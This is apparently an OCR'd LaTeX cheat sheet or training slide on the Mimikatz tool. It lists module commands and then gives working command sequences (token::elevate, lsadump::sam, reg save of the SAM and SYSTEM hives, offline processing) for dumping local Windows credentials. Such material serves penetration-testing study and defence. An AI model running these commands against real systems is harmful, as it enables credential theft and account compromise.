 \begin{itemize}
   \item Author Benjamin Delpy updates code often, pay attention to Twitter: \href{https://twitter.com/gentilkiwi}{@gentilkiwi}
   
   \item Unofficial Guide to Mimikatz \& Command Reference: \href{https://adsecurity.org/?page_id=1821}{adsecurity.org/?page\_id=1821}
   
   \item List all parent modules
   \begin{verbatim}
   mimikatz # ::
   \end{verbatim}
   
   \item List \textbf{submodules} for a given parent
   \begin{verbatim}
   mimikatz # sekurlsa::
   \end{verbatim}
   
   \item Many Mimikatz modules require \textbf{SeDebugPrivilege} privileges, use
   \begin{verbatim}
   privilege::debug or token::elevate
   \end{verbatim}
   $\Rightarrow$ Needs Administrator rights AND elevated process (High Integrity Level)
\end{itemize}

\texttt{lsadump::<module>} allows to \textbf{interact with the local security authority (LSA)}, in order to \textbf{extract local credentials} from a machine.

\begin{itemize}
\item On running machine:
\begin{verbatim}
mimikatz # token::elevate
mimikatz # lsadump::sam
\end{verbatim}

\item OR
\begin{verbatim}
reg save HKLM\SYSTEM SYSTEM.hiv  
reg save HKLM\SAM SAM.hiv
\end{verbatim}

\item Shutdown system, copy the following files:
\begin{verbatim}
C:\Windows\System32\config\SYSTEM
C:\Windows\System32\config\SAM
\end{verbatim}

\item Process files offline:
\begin{verbatim}
mimikatz # lsadump::sam /system:SYSTEM.hiv /sam:SAM.hiv
\end{verbatim}
\end{itemize}

